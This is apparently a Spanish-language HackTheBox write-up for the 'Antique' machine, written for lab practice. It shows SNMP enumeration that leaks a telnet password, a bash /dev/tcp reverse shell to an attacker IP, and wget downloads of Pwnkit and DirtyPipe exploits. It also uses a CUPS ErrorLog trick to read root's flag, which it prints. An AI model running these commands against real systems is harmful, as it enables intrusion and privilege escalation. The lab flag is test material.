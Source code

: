 ```yaml
---
title: HackTheBox - Antique
author: cotes
date: 2023-09-06 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Linux, 'SNMP Enumeration', 'Pwnkit (CVE-2021-4034)', 'DirtyPipe (CVE-2022-0847)', 'Cups (CVE-2012-5519)']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Antique/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Antique Machine Logo
---
```


Máquina Linux de nivel **Easy** de HackThBox.

Técnicas usadas: **Linux, SNMP Enumeration, Pwnkit (CVE-2021-4034), DirtyPipe (CVE-2022-0847), Cups (CVE-2012-5519)**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos tanto **TCP** como **UDP**

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Antique/01-ports.png)


* **`nmap -sU --top-ports 1000 -Pn -n <IP> -oG puertos_udp`**

    ![](/assets/images/HTB/Easy/Antique/01-ports-udp.png)


b. Al conectarnos con telnet al puerto 23 nos pedirá una contraseña para continuar, pero, al no tenerla inspeccionamos el servicio **`SNMP`**

> **Protocolo Simple de Gestión de Red** (SNMP), fue creado para monitorear dispositivos en red. Se usa para manejar la configuración de tareas y cambiar configuraciones remotamente. Algunos dispositivos son compatibles como routers, switches, servidores o dispositivos IoT.
{: .prompt-info }

c. Al configurar dispositivos puede que exista información sobre los procesos y en ciertos casos credenciales. Así que, enumeraremos el servicio **`SNMP`** para tratar de conseguir información disponible, para esto debemos poseer una **`community string`**, algo así como una contraseña.

```bash
nmap -sU -p 161 --script 'snmp-*' <IP Antique>

PORT    STATE SERVICE
161/udp open  snmp
| snmp-brute:
|   <empty> - Valid credentials
|   cascade - Valid credentials
|   secret - Valid credentials
|   rmonmgmtuicommunity - Valid credentials
|   ANYCOM - Valid credentials
|   volition - Valid credentials
|   ILMI - Valid credentials
|   TENmanUFactOryPOWER - Valid credentials
|   MiniAP - Valid credentials
|   PRIVATE - Valid credentials
|   admin - Valid credentials
|   private - Valid credentials
|   public - Valid credentials
|   PUBLIC - Valid credentials
|   snmpd - Valid credentials
|   cisco - Valid credentials
|   mngt - Valid credentials
|_  snmp-Trap - Valid credentials

snmpwalk -v2c -c secret 10.10.11.107
SNMPv2-SMI::mib-2 = STRING: "HTB Printer"
```

Al buscar por cualquiera de las **`community strings`** siempre obtendremos el mismo resultado, por lo que indagamos más sobre este servicio [SNMP - Basics](https://www.manageengine.com/latam/network-monitoring/tutorial-fundamentos-protocolo-snmp.html)

d. Nos mencionan que sigue una estructura de árbol, y **`snmpwalk`** no enumera desde la raíz, así que le indicamos que queremos obtener toda la información posible desde la raíz

```bash
snmpwalk -v2c -c secret 10.10.11.107 1

SNMPv2-SMI::enterprises.11.2.3.9.1.1.13.0 = BITS: 50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135
```
> Obtenemos la información en formato **hexadecimal**, para verla en texto claro usamos **`xxd -r -p`**
{: .prompt-tip }

e. Una vez con la contraseña en texto claro nos autenticamos en el servicio **telnet**

```bash
telnet <IP Antique>
HP JetDirect

Password: P@ssw0rd@123!!123
Please type "?" for HELP
> ?
<SNIP>
exec: execute system commands (exec id)
```

Podemos ejecutar comandos, por lo que nos entablaremos una reverse shell

```bash
> exec bash -c "bash -i >& /dev/tcp/10.10.14.18/4444 0>&1"
-----------------------------------------------------------
nc -lvnp 4444
lp@antique:~$
```

### Escalada de Privilegios 💹

Para escalar privilegios existen múltiples formas, primero usaremos [**Pwnkit**](https://github.com/berdav/CVE-2021-4034)

a. Primero, movemos los ficheros necesarios a la **Máquina Antique**

```bash
python -m http.server 80
--------------------------------------
lp@antique:/home/lp$ wget http://<tun0 IP>/cve-2021-4034.c -o-
lp@antique:/home/lp$ wget http://<tun0 IP>/Makefile -o-
lp@antique:/home/lp$ wget http://<tun0 IP>/pwnkit.c -o-
lp@antique:/home/lp$ make
lp@antique:/home/lp/backup$ chmod +x cve-2021-4034
lp@antique:/home/lp/backup$ ./cve-2021-4034
# whoami
root
```

b. La segunda forma se consigue al usar [**DirtyPipe**](https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits), usaremos el **exploit-1.c**

```bash
lp@antique:~$ wget http://10.10.14.18/poc.c -o-
lp@antique:~$ gcc poc.c -o exploit
lp@antique:~$ chmod +x exploit
lp@antique:~$ ./exploit
Password: Restoring /etc/passwd from /tmp/passwd.bak...
Done! Popping shell... (run commands now)
whoami
root
```

c. Veremos los puertos abiertos en la máquina y buscaremos algún exploit para [**CUPS**](https://www.infosecmatter.com/metasploit-module-library/?mm=post/multi/escalate/cups_root_file_read)

```bash
lp@antique:~$ netstat -nat
<SNIP>
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN

lp@antique:~$ curl http://127.0.0.1:631
<SNIP>
<P><A HREF="help/whatsnew.html">What's New in CUPS 1.6</A></P>
```

```bash
lp@antique:~$ cupsctl ErrorLog=/root/root.txt
lp@antique:~$ curl -s 127.0.0.1:631/admin/log/error_log?

b901e1e1f279e8d3160bebd097f37ddd
```